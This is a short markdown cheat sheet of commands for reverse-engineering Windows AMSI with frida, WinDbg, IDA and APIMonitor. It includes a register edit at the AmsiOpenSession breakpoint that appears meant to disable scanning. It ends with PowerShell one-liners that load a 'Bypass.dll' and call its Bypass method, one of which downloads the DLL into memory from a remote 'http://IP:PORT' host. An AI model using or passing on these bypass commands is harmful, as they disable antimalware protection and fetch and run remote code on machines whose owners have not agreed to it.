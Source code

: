 ### FRIDA

```shell
frida-trace -p <PID> -x amsi.dll -i Amsi*
```

### WINDBG

```shell
dc 0x23123 -> Dump memory content

u amsi!AmsiOpenSession  -> Unassemble function

u amsi!AmsiOpenSession+0x23 L2  -> Unassemble function, two lines

u amsi!AmsiOpenSession+0x23 L1A  -> Unassemble function

bp amsi!AmsiOpenSession  -> Breakpoint

g -> continue

dc rcx L1 -> Dump content of rcx 

ed rcx 0 -> Edit rcx por 0

? 0n140736475571392 -> Convert memory position to hexadecimal 

r -> show registry 

r rax -> read a registry

dd, dc y dq -> 32bit, 32 bit in asci, 64bits

p -> continue

!vprot <address> -> Show protections of a memory region

```

### IDA 
```shell
F2 -> Breakpoint
F9 -> Run
F7 -> Step over
F8 -> Step into
```

### APIMonitor

Load amsi.dll as external DLL. Open a new PowerShell Process, execute a command and the api calls should appear.

### Load a DLL using PowerShell 
```shell
Load the DLL using PowerShell locally
[System.Reflection.Assembly]::LoadFile('Absolute_Path_to_DLL\Bypass.dll')
[Super]::Bypass()

Load the DLL using PowerShell from a remote source
[System.Reflection.Assembly]::Load((new-object net.webclient).DownloadData("http://IP:PORT/Bypass.dll"))
[Super]::Bypass()
```
